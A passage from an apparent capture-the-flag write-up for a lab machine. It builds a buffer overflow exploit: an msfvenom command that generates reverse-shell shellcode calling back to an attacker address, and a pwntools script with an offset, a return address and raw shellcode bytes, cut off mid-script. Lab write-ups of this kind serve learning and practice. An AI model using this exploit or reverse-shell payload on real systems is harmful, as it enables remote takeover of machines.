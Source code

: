 Now that I have all the information I need, I can start creating a custom exploit to exploit **Buffer Overflow**. I generate with `msfvenom` a **shellcode** in `python` format to get a **Reverse shell**, I also have to fix some problems with some libraries that I'm going to use (**pwn**) and that my system only allows me to install in a `python` environment, I also have to define in the script the context where the code is going to be executed (32bit Linux). I try the first attack but I don't succeed, I remember that on my machine I have the **Address Randomization** protection enabled so I disable it (I have to remember that when I finish the box, I have to reassign the value **2**).

> When working with **Python** on a **Linux** system with an **i386 architecture**, the "context" generally refers to the environment and settings in which the Python code is executed. This includes factors like the **operating system**, **architecture**, and any relevant **libraries** or **dependencies**.

> The Linux **kernel** has a defense mechanism named **[address space layout randomization (ASLR)](https://linux-audit.com/linux-aslr-and-kernelrandomize_va_space-setting/){:target="_blank"}**. This setting is tunable with the **randomize_va_space** setting. Its main goal was to randomize memory segments to make abuse by malicious programs harder. A normal program consists of several components, which are loaded into memory and flagged with special properties. Some pieces of the program are executable bits, others are normal data.

```bash
nvim jail_bof.py
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -b "\x00\x0a" -f python
```

> **jail_bof.py**:

```python
#!/usr/bin/python3

from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
ip_target = '127.0.0.1'
port = 7411
offset = 28
buffer_address = 0xffffc800

if __name__ == '__main__':

    context.arch = 'i386'
    context.os = 'linux'
    p = remote(ip_target, port)

    before_eip = ("A" * offset).encode()
    eip = p32(buffer_address + 32)

    # ❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -b "\x00\x0a" -f python
    buf =  b""
    buf += b"\xda\xdd\xd9\x74\x24\xf4\x5e\xba\x09\x29\xd5\x9f"
    buf += b"\x2b\xc9\xb1\x12\x31\x56\x17\x03\x56\x17\x83\xcf"
    buf += b"\x2d\x37\x6a\xfe\xf6\x40\x76\x53\x4a\xfc\x13\x51"
    buf += b"\xc5\xe3\x54\x33\x18\x63\x07\xe2\x12\x5b\xe5\x94"
    buf += b"\x1a\xdd\x0c\xfc\x96\x17\xe1\xf2\xce\x25\xfd\x0b"
    buf += b"\xb4\xa3\x1c\xbb\xac\xe3\x8f\xe8\x83\x07\xb9\xef"
    buf += b"\x29\x87\xeb\x87\xdf\xa7\x78\x3f\x48\x97\x51\xdd"
    buf += b"\xe1\x6e\x4e\x73\xa1\xf9\x70\xc3\x4e\x37\xf2"

    p.recvuntil(b"OK Ready. Send USER command.")
```